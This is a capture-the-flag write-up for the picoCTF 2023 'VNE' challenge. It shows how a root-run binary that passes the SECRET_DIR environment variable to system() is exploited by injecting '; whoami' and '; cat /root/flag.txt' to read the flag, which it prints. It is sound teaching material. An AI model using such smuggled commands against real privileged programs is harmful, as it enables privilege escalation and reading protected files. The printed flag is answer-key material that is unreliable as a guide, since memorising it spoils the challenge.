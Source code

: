 # VNE - picoCTF 2023 - CMU Cybersecurity Competition
Binary Exploitation, 200 Points

## Description

![‏‏info.JPG](images/info.JPG)
 
## VNE Solution

Let us connect to the SSH server as described in the challenge description:
```console
┌─[evyatar@parrot]─[/pictoctf2023/binary_exploitation/VNE]
└──╼ $ ssh ctf-player@saturn.picoctf.net -p 53662
ctf-player@saturn.picoctf.net's password:

Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.15.0-1031-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

ctf-player@pico-chall$ ls
bin
```

We can see that we have one binary file called `bin`.

Let's try to run it:
```console
ctf-player@pico-chall$ ./bin 
Error: SECRET_DIR environment variable is not set
```

The binary requires the `SECRET_DIR` environment variable to be set, Let's set it:
```console
ctf-player@pico-chall$ export SECRET_DIR="test"
ctf-player@pico-chall$ ./bin 
Listing the content of test as root: 
ls: cannot access 'test': No such file or directory
Error: system() call returned non-zero value: 512
```

From the given output, we can observe that the binary is using the system function and encountering an error `No such file or directory` when trying to list the contents of the `test` directory. Based on this, we can infer that the binary is calling the `system` function with a command like `system("ls <VALUE OF SECRET_DIR>")`.

To exploit this, we can perform command injection by setting our command in the `SECRET_DIR` environment variable, for example: `export SECRET_DIR="; whoami"`. This would result in the `system` call being executed as `system("ls ; whoami")`, allowing us to execute arbitrary commands.

Let's try it:
```console
ctf-player@pico-chall$ ./bin 
Listing the content of ; whoami as root: 
bin
root
```

As we injected the command `; whoami` into the `SECRET_DIR` environment variable, the binary executed the `system` call as `system("ls ; whoami")` and listed the contents of the current directory followed by the output of `whoami` command. This confirms that we have successfully executed a command injection attack.

To retrieve the flag, we can now set the `SECRET_DIR` variable to execute the `cat` command on the `/root/flag.txt` file, like so: `export SECRET_DIR="; cat /root/flag.txt"`. Upon running the binary again, the `system` call will execute as `system("ls ; cat /root/flag.txt")` and display the contents of the flag file on the console:
```console
ctf-player@pico-chall$ export SECRET_DIR="; cat /root/flag.txt"
ctf-player@pico-chall$ ./bin 
Listing the content of ; cat /root/flag.txt as root: 
bin
picoCTF{Power_t0_man!pul4t3_3nv_19a6873b}
ctf-player@pico-chall$ 
```

And we get the flag `picoCTF{Power_t0_man!pul4t3_3nv_19a6873b}`.